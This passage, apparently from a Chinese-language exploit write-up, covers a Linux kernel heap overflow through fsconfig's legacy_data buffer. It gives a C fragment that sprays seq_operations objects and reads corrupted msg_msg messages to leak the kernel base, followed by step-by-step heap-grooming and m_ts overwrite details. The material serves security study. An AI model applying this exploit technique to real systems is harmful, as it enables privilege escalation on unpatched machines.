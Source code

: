```c
    puts("[*] Done heap overflow");
    puts("[*] Spraying kmalloc-32");
    for (int i = 0; i < 100; i++) 
    {//[6]上面提到过的泄露地址用结构体,多次打开stat，喷射多个0x20的seq_operations结构体
        open("/proc/self/stat", O_RDONLY);
    }//大概率会喷射到消息第二段0x20(kmalloc-32) 的后面

    size = 0x1060;//接受消息的长度
    puts("[*] Attempting to recieve corrupted size and leak data");

    // go through all targets qids and check if we hopefully get a leak
    for (int j = 0; j < 0x10; j++) 
    {//[7]接受消息，某一个消息的长度被改大，则会越界读到后面的seq_operations结构体
        get_msg(targets[j], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
        kbase = do_check_leak(recieved);//泄露成功
        if (kbase) 
        {
            close(fd);
            return kbase;
        }
    }

    puts("[X] No leaks, trying again");
    return 0;
}
```

1. 这里会在溢出操作之前和之后分别用`msgsnd` 布局一部分`kmalloc` 堆块，具体消息长度是`0x1018-0x30 = 0xfe8`。那么根据消息结构，会被分成两段0xfd和0x18：

   - 第一段 消息头`msg_msg` 0x30 和消息0xfd 共0x1000 属于`kmalloc-4k`
   - 第二段 消息段头`msg_msgseg` 0x8 和消息0x18 共0x20 属于`kmalloc-32`

2. 准备溢出，使用`fsconfig` 将`legacy_data` (申请长度4096 属于`kmalloc-4k`)长度填充到4095，这里使用33个'A'，实际每次还会加上",="两个字符，所以实际每次填充35个字符填充117次正好4095。

   页起始地址与页末尾：

   ![image-20220304094122226](img/image-20220304094122226.png)

3. 再填充21个字符，加上`",="`共23个字符，这里就发生了溢出，由于之前填充到了4095，所以实际溢出22个字符，也就是0x16，**但这里正常情况发生溢出溢出的是还没被使用(分配)过的内存。**

   ![image-20220304094225004](img/image-20220304094225004.png)

4. 继续`msgsnd`，申请`msg_msg` 结构体(会分成两段)，由于第一段msg 长度为`kmalloc-4k`，所以大概率申请到将`legacy_data` 后面的地方，会覆盖刚刚溢出的部分，不过无所谓。

   ![image-20220304094808536](img/image-20220304094808536.png)

5. 继续调用`fsconfig` 进行溢出，这就是为什么要分两次溢出的原因，**刚刚那次溢出22个字符的目的只是为了将指针移动到`msg_msg` 头中`m_ts`(代表msg 的大小)字段的前面。这时再溢出由于会在前面添加`",="`两个字符，那么正好可以覆盖`msg_msg` 头中的`m_ts`修改msg 的大小** 。

   ![image-20220304094928314](img/image-20220304094928314.png)
